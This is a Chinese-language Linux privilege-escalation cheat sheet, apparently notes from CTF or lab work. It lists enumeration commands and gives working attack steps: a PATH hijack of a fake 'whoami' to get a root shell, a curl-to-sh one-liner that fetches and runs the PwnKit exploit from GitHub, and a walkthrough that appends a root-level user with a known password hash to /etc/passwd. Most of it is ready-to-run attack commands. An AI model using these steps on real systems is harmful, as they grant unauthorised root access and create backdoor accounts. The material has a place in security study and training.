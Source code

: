 ## 1. 查找提权点
### 系统版本号
```
uname -r //查看系统版本号
```
上网搜索相关漏洞
### 看敏感目录
```
/var/www
/home
```
### 当前目录的权限信息
```
ls -la

Example:
$ ls -la
total 32
drwxr-xr-x  5 user group  4096 Aug 15 10:20 .
drwxr-xr-x 12 user group  4096 Aug 15 09:30 ..
-rw-r--r--  1 user group   220 Aug 15 09:20 .bash_logout
-rw-r--r--  1 user group  3771 Aug 15 09:20 .bashrc
drwxr-xr-x  2 user group  4096 Aug 15 10:18 .config
-rw-r--r--  1 user group   807 Aug 15 09:20 .profile
-rw-r--r--  1 user group     0 Aug 15 10:20 example.txt
drwxr-xr-x  2 user group  4096 Aug 15 10:18 my_folder

d/- 目录/文件
_________ 所有者权限 所属用户组的权限 其他用户的权限
硬链数
所有者及其ta所属的组
最后修改时间
有 . 为文件，无 . 则为目录
```
有个特殊的粘滞位 `t`
粘滞位（sticky bit)：
- **`t`**：粘滞位的存在意味着只有文件的所有者、目录的所有者或超级用户（root）才能删除或重命名目录中的文件。这常用于公共目录（如 `/tmp`），以防止用户删除其他用户的文件。
### `sudo` 命令 （最好不是 www-data 用户）
使用 `sudo` 列出可执行命令
```
sudo -l
```
查看当前用户可以使用 `sudo` 执行的命令列表。
https://gtfobins.github.io/ 配合 `sudo -l` 食用更佳。
### crontab 
`/etc/crontab` https://crontab.guru/
```
cat /etc/crontab // 看有没有 root 权限的定时任务
```
### SUID位文件，最好有 root 的 SUID 位
查找 SUID (Set User ID) 位的文件，这种文件在执行时可以以文件所有者的权限运行，比如 `passwd` 就是一个设置了 SUID 的文件，普通用户在使用时可以执行 root(也就是文件的所有者) 的权限来修改自己的密码。如果要用 root 权限，则需要找出 root 所拥有的文件。
```
find / -perm -4000 -type f 2>/dev/null
```
### 列出以 root 运行的进程
查看以root运行的进程，只是显示当前的，可能要多看几次
```
ps aux | grep -i 'root' --color=auto
```
### 上传 `pspy64` 
`pspy64` 可以一直监视，弥补上面那个命令的缺陷，但动作有点大
https://github.com/DominicBreuker/pspy/releases
## 2. 特殊情况
### 2.1用户名欺骗 `whoami`
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {
    printf("checking if you are tom...\n");
    // 使用popen打开一个子进程执行"whoami"命令，并以读模式打开文件指针f
    FILE* f = popen("whoami", "r");

    char user[80]; // 定义一个字符数组，用于存储用户名
    fgets(user, 80, f); // 从文件指针f中读取最多79个字符到user数组中，留一个空位给'\0'

    printf("you are: %s\n", user); // 打印出当前用户名
    //printf("your euid is: %i\n", geteuid()); // 注释掉的代码，用于打印有效用户ID

    // 检查user数组的前3个字符是否与字符串"tom"相匹配
    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n"); // 如果是"tom"，则打印"access granted."
        setuid(geteuid()); // 将真实用户ID设置为有效用户ID，通常用于提权
        execlp("sh", "sh", (char *) 0); // 执行一个新的shell，替换当前进程
    }
}

// 根据上述程序，对策如下：
// 当前目录为 
echo "printf "tom"" > whoami // 将 `printf "tom"` 写入文件 whoami，如果没有这个文件，就创建

chmod +x whoami // 加执行文件

export PATH=/tmp:$PATH // 将 /tmp 放在环境变量的最前面，覆盖掉原来的 whoami
```
### 2.2 `pkexec`
 前提条件为能找到这个 SUID 文件
`sudo` 和 `pkexec` 都是提权。
`sudo` 主要用于命令行界面（CLI），而 `pkexec` 主要用于图形用户界面（GUI）
https://github.com/ly4k/PwnKit
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
上次成功的时候是切换到用户自己文件夹中。
### 2.3 与备份相关
与备份相关的可能是定时任务，并且执行备份的用户的权限应该很高。
### 2.4 在 `/etc/passwd` 中添加用户
```
/opt/devstuff/test.py
```
代码内容如下
```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 : # sys.argv 是命令行参数数组，包含了命令行参数 
    print ("Usage: python test.py read append")
    sys.exit (1) # 类似于 C 语言的 return 1;

else :
    f = open(sys.argv[1], "r") # 读取 ./test 后第一个输入的文件名
    output = (f.read()) # 先存在 output 中

    f = open(sys.argv[2], "a") # 再打开 ./test 后第二个输入的文件名，并且是 append (附加)的形式
    f.write(output) # 在结尾写上 output 的内容
    f.close()
```

上述代码作用是从 read 处读取一个文件，并将其内容附加到 append 文件结尾，并且这两个操作还是 root 权限，那么就可以往一些敏感文件加信息了。可以往 `/etc/passwd` 中添加信息，也就是加一个 root 用户。

openssl 一般用于 `/etc/passwd` 文件的加密
```
openssl passwd -1 -salt passion 123456
```

得到下面这个经 md5 加密的密码，带有盐值 passion
```
$1$passion$6B1Neow110enwwaaEaWQs.
```

接下来利用 `test`将 `passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash` 附加到 `/etc/passwd` 中
```
cd /tmp

echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion

cd /opt/devstuff/dist/test

sudo ./test /tmp/passion /etc/passwd
```

提权成功
```
su passion
123456
```

结束
## 3. 其它
### python3本地开服务器
```
python3 -m http.server 80
```
### 稳定 shell (python版reverse shell)
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
```